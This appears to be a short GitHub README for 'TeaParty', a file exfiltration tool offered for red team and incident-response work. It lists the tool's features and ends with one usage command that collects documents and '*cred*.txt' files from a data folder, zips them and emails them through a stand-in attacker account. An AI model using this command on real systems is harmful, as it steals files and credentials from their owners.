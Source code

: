 # TeaParty 🫖

TeaParty is a console-based tool for searching, compressing, and exfiltrating files via email or SFTP. Designed for red team operations, incident response, or automation.

## Features

- Search by file extension, name pattern, or both
- Recursive search with exclusion filters
- ZIP compression with SHA256 integrity hashes
- Email delivery (supports multiple recipients)
- SFTP fallback if email fails (optional)
- Logging with `--debug` and `--quiet` mode
- Interactive input or CLI arguments
- Hash-based cache to avoid duplicates

Remember that -h (help) options is available to see more options in details.
## Usage

```bash
teaparty.exe -s 3 -e .pdf,.docx -p *cred*.txt -d C:\data -m attacker@example.com:pass -to target@example.com -z 1

